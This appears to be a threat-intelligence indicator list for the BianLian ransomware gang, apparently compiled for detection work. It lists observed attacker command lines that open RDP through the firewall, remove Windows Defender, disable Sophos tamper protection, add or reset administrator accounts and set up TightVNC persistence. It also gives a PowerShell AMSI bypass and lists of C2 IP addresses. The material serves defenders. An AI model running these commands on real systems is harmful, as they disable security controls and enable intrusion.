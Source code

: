 # \[Bian Lian IOCs\]
[Redacted blog](https://redacted.com/blog/bianlian-ransomware-gang-gives-it-a-go/?utm_source=Internal%20Referrals&utm_campaign=BianLian)
[KQL Queries](https://gist.github.com/jllangley/599318d80ac6cef69a8607881a5a7778)
### svchost spawned from parent process that is not services.exe
### svchost spawned from unusual path

### Netsh usage
> `"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes`

> `"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow`

### Disabling Defender
>   `"C:\Windows\system32\Dism.exe" /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart`

### Adding local user account 
> `"C:\Windows\system32\net.exe" localgroup "Remote Desktop Users" <similar name to existing admin> /add`

>   `"C:\Windows\system32\net.exe" user <legitimate admin account> 3gDZNxtsQ9G029k7D6Ljxe /domain`

### Enabling Remote Desktop Connection
>   `"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes`

>   `"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow`

>   `"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /* v fAllowToGetHelp /t REG_DWORD /d 1 /f`

>   `"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal * Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f`

### Disabling Sophos
> `"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SAVEnabled /d 0 /f`

  >`"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SEDEnabled /d 0 /f`

>`"C:\Windows\system32\reg.exe" ADD * HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Sophos\SAVService\TamperProtection /t REG_DWORD /v Enabled /d 0 /* f`

### Enabling TightVNC in Safe Mode
> `"C:\Windows\system32\reg.exe" copy hklm\system\CurrentControlSet\services\tvnserver * hklm\system\CurrentControlSet\control\safeboot\network\tvnserver /s /f`

>`\cmd.exe /Q /c net user "Administrator" /active:yes 1> \\127.0.0.1\C$\Windows\Temp\abjAlC 2>&1`

### Password Change to the local administrator account, output to file
> `cmd.exe /Q /c net user "Administrator" ChangeMe2morrow! 1> \\127.0.0.1\C$\Windows\Temp\OxNEcz 2>&1`

### Running the quser command and saving output to file
 > `cmd.exe /Q /c quser 1> \\127.0.0.1\C$\Windows\Temp\VXPrvY 2>&1`
 
### Ping only once 
 > `"C:\Windows\system32\PING.EXE" -4 -n 1 *`
 
### Powershell AMSI Bypass [more info](https://blog.xpnsec.com/exploring-powershell-amsi-and-logging-evasion/)
>`[Ref].Assembly.GetType(‘System.Management.Automation.AmsiUtils’).GetField(‘amsiInitFailed’,’NonPublic,* Static’).SetValue($null,$true)`

### C2 IP Addresses 
> Current
`("104.225.129.86","104.238.223.10","104.238.223.3","109.248.6.207","13.49.57.110","144.208.127.119","146.0.79.9","157.245.80.66","16.162.137.220","165.22.87.199","172.93.96.61","172.93.96.62","18.130.242.71","185.108.129.242","185.225.69.173","185.56.80.28","185.62.58.151","185.69.53.38","192.145.38.242","192.161.48.43","192.169.6.232","37.235.54.81","45.9.150.132","5.2.79.138","51.68.190.20","54.173.59.51","62.84.112.68","64.52.80.120","66.135.0.42","83.136.180.12","85.13.117.213","85.13.117.218","91.199.209.20","95.179.137.20")
> 

> Historical IPs
`("104.207.155.133","104.238.61.153","146.70.44.248","155.94.160.241","167.88.15.98","172.96.137.107","188.166.81.141","194.26.29.131","194.5.212.205","194.58.119.159","198.252.108.34","202.66.72.7","208.123.119.145","209.141.54.205","23.227.198.243","23.94.56.154","43.155.116.250","45.144.30.139","45.92.156.105","5.188.6.118","5.230.67.2","85.13.116.194","85.13.117.219","89.22.224.3")`
